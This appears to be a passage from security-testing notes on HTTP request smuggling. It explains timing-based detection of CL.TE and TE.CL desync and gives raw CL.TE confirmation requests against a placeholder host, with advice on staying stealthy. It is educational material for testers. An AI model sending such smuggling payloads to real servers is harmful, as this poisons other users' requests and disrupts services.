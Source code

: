 `Content-Length=6` -> `0` `\r` `\n` `\r` `\n` `X`

The back-end server, relying on the Content-Length header, waits for additional message body content, resulting in a noticeable time delay.

> **Warning**: The timing-based test for TE.CL vulnerabilities will potentially disrupt other application users if the application is vulnerable to the CL.TE variant of the vulnerability. So to be stealthy and minimize disruption, you should use the CL.TE test first and continue to the TE.CL test only if the first test is unsuccessful.

---

## Confirmation/Exploitation

Normal request

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

### CL.TE

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

`Content-Length: 49` -> all chars until `Foo:x` (include `\r\n`)

`e` (hex) -> Length `q=smuggling&x=`

Then send normal request. This will cause the subsequent "normal" request to look like this:

```http
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```
